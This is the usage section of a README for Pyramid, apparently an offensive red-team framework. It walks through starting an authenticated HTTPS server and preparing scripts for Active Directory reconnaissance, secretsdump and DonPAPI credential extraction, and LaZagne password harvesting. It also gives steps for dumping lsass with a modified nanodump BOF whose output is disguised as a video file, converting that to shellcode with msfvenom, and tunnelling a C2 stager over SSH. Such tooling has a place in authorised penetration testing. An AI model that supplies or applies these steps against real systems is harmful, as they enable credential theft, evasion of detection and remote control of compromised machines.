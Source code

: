 
### Usage


#### Starting the server


`git clone https://github.com/naksyn/Pyramid`

Generate SSL certificates for HTTP Server:

`openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`

Example of running Pyramid HTTP Server using SSL certificate and by providing Basic Authentication:

`python3 PyramidHTTP.py 443 testuser Sup3rP4ss! /home/user/SSL/key.pem /home/user/SSL/cert.pem /home/user/Pyramid/Server/`


#### Modifying Base Scripts

##### base-bh.py

Insert AD details and HTTPS credentials in the upper part of the script.

##### base-secretsdump.py

Insert AD details and HTTPS credentials in the upper part of the script.

##### base-BOF-lsass.py

The nanodump BOF has been modified stripping Beacon API calls, cmd line parsing and hardcoding input arguments in order to use the process forking technique and outputting lsass dump to C:\Users\Public\video.avi. To change these settings modify nanodump source file **entry.c** accordingly and recompile the BOF.
Then use the tool bof2shellcode giving as input the compiled nanodump BOF:

`python3 bof2shellcode.py -i /home/user/bofs/nanodump.x64.o -o nanodump.x64.bin`

You can transform the resulting shellcode to python format using msfvenom:

`msfvenom -p generic/custom PAYLOADFILE=nanodump.x64.bin -f python > sc_nanodump.txt`

Then paste it into the base script within the shellcode variable.

##### base-tunnel-inj.py

Insert SSH server, local port forward details details and HTTPS credentials in the upper part of the script and modify the sc variable using your preferred shellcode stager. Remember to tunnel your traffic using SSH local port forward, so the stager should have 127.0.0.1 as C2 server and the SSH listening port as the C2 port.

##### base-DonPAPI.py

Insert AD details and HTTPS credentials in the upper part of the script.

##### base-LaZagne.py

Insert HTTPS credentials in the upper part of the script and change lazagne module if needed.
